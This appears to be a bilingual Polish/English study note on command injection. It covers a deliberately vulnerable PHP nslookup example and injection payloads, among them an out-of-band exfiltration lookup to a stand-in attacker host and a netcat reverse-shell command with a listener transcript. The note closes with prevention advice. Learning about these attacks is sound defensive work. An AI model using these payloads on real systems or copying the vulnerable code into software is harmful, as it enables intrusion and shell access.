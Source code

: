 # Command Injection (Wstrzykiwanie polecenia)
Command injection (wstrzyknięcie polecenia) to rodzaj ataku bezpieczeństwa w systemach komputerowych, który polega na wprowadzeniu polecenia do aplikacji.  
Atak polega na tym, że aplikacja, zamiast odpowiednio filtrować dane wejściowe użytkownika, przekazuje je bezpośrednio do systemu operacyjnego lub środowiska wykonawczego, gdzie mogą zostać wykonane jako część polecenia systemowego.  

Warto zwrócić uwagę na "filozofie" danej technologii. Np. w językach takich jak Java tworzenie poleceń, które trzeba wywołać w systemie operacyjnym, jest dosyć nietypowe, można za pomocą klasy java.lang.Runtime, ale aplikacji Javy są projektowane z myślą o uruchamianiu w różnych OS, dlatego poleganie na dostępności funkcji określonych systemów operacyjnych byłoby sprzeczne z tą filozofią.  
Natomiast PHP, które jest zaprojektowane zgodnie z filozofią Uniksa, według której programy powinny wykonywać tylko jedno zadanie i komunikować się ze sobą poprzez strumienie tekstowe.  
Zatem aplikacje PHP często wywołują inne programy poprzez wiersz poleceń. Python i Ruby są często używane do tworzenia skryptów, dzi ęki czemu łatwo za ich pomocą wykonywać polecenia w OS.  

Więc ta luka w zabezpieczeniach wynika z faktu, że aplikacje często korzystają z funkcji języków programowania, takich jak PHP, Python i NodeJS, aby przesyłać dane do systemu operacyjnego maszyny i wykonywać w nim wywołania systemowe.
Przykład: Witryna, która wykonuje polecenie `nslookup` aby rozwiązywać nazwy domen i adresy IP.
```
<?php
    if (isset($_GET['domain'])) {
    echo ',pre.';
    $domain = $_GET['domain'];
    $lookup = system("nslookup {$domain}");
    echo($lookup);
    echo '</pre>';
  }
?>
```
Atak:  
`google.com && echo "HAXXED"`
Wysyłany jest parametr domain o wartość google.com + && echo "HAXXED".  
`&&` w Uniksie służą do łączenia osobnych poleceń. Ponieważ nie ma w kodzie mechanizmu ucieczki dla znaków kontrolnych w tym scenariuszu zostaną wykonane dwa polecenia:  
oczekiwane polecenie `nslookup`, które poszuka domeny google.com, a następnie wstrzyknięte zostanie polecenie `echo "HAXXED"`.  

## Exploiting Command Injection
Command injection can often be identified by analyzing an application's behavior, especially when user input is used to execute system commands. Shell operators like `;`, `&`, and `&&` can allow unintended command execution.

There are two main types of command injection:

**Blind command injection** – where the output is not directly visible, the  vulnerable application that does not return the output from the command within its HTTP response.  
**Verbose command injection or In-band command injection** – where the results are displayed.

### Detecting Blind Command Injection
Detection methods:  
1. **Time-based testing** – Using commands like `ping` or `sleep` to introduce a delay and observe if the application hangs.  
2. **Forced output** – Redirecting command output (`whoami`) to a file using `>` and then retrieving it with `cat`.  
3. **Using curl** – Sending data to and from an application to test for injection vulnerabilities. Eg: `curl http://vulnerable.app/process.php%3Fsearch%3DThe%20Beatles%3B%20whoami`  

Testing can be complex, as syntax varies between Linux and Windows, requiring experimentation.  
Examples:  
Trigger a time delay:  
`127.0.0.1 && sleep 10 &`
`127.0.0.1 && ping -c 10 127.0.0.1 &`  
Output the response of the command in the web root and retrieve the file directly using a browser:  
`127.0.0.1 & whoami > /var/www/static/whoami.txt &`  
Open an out-of-band channel back to a server you control:  
`127.0.0.1 & nslookup kgji2ohoyw.web-attacker.com &`
``127.0.0.1 & nslookup `whoami`.kgji2ohoyw.web-attacker.com &``

### Detecting Verbose Command Injection
**Verbose command injection** is easier to detect since the application provides visible output when commands are executed. For example, commands like `whoami` or `ping` display their results directly on the web application.  

### Bypassing Filters
Applications will employ numerous techniques in filtering and sanitising data that is taken from a  user's input. These filters will restrict you to specific payloads; however, we can abuse the logic behind an application to bypass these filters. For example, an application may strip out quotation marks; we can instead use the hexadecimal value of this to achieve the same result.

When executed, although the data given will be in a different format than what is expected, it can still be interpreted and will have the same result.  
`$payload=\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`

### Useful payloads for testing:
Shell metacharacters: ``&, &&, |, ||, ;, \n, `, $()`` for command concatenation.  
Useful payloads for testing:  
**Linux:**  
- `whoami` – Check the user under which the application is running.  
- `ls` – List directory contents to find valuable files.  
- `ping` / `sleep` – Test for blind command injection by causing delays.  
- `nc` – Spawn a reverse shell for deeper exploitation.  

**Windows:**  
- `whoami` – Identify the running user.  
- `dir` – List directory contents for useful files.  
- `ping` / `timeout` – Test for blind command injection by introducing delays.
___
## Establishing remote control
Let say that we have an application that  provides the ability to send ping packets to a host.  
The IP address or the host name is expected as input. 

![img.png](img/img_20.png)

This web page is susceptible to command injections, and we  can easily establish a remote connection
 to a remote computer. This way, shell access to the web server is possible. The following
 input sends a remote shell to the attacker’s IP address:  

`8.8.8.8;nc-n <IP attacker> 7777-e /bin/sh`  

 Before that, we must start a listener on port 7777:  
```
root@kali:~# nc-lnvp 7777
listening on [any] 7777 ...
connect to [192.168.218.164] from (UNKNOWN) [192.168.218.163]
whoami
 www-data
id
 uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd
 /var/www/html/websec/command_injection
```
Command injection attacks can be easily automated using tools such as [Commix](https://github.com/commixproject/commix)  
TODO dodać przykład zdalnej powłoki ze studiów biały pas
## **Preventing Command Injection**
Command injection can be mitigated through careful coding practices, such as limiting the use of dangerous functions and properly sanitizing user input.  

**Vulnerable Functions in PHP**  
Certain PHP functions, like `exec`, `passthru`, and `system`, execute commands directly in the shell. If user input is passed to these functions without validation, the application becomes vulnerable.  

**Input Sanitization**  
A key defense is **sanitizing user input**, ensuring only expected data formats are accepted. For example:  
- Restricting input to numbers only.  
- Removing special characters (`>`, `&`, `/`).  
- Using functions like `filter_input` to validate input types.  

**Przestrzeganie zasady najmniejszych uprawnień, aby ograniczyć skutki pomyślnego ataku.**
___
## Dodatkowe informacje
[command-injection-payload-list](https://github.com/payloadbox/command-injection-payload-list)  
[Commix](https://github.com/commixproject/commix)
___
## Sources
- tryhackme, SQL Injection, https://tryhackme.com/r/room/sqlinjectionlm.
- M. McDonald, Bezpieczeństwo Aplikacji Internetowych dla Programistów, 2021 Helion S.A.
- M. Kofler et all, Hacking and Security The Comprehensive Guide to Penetration Testing and Cybersecurity, Rheinwerk Publishing 2023
- R. Khalil, Command Injection | Complete Guide, https://www.youtube.com/@RanaKhalil101.